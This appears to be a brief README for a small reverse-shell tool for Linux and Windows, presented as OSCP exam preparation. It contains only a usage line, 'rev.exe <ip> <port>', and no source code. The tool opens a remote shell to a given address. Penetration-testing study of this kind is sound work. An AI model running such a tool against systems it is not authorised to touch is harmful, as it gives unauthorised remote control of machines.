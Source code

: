 # Simple Reverse Shell

Simple reverse shell for linux and windows for OSCP preparation


Usage

```
rev.exe <ip> <port>
```
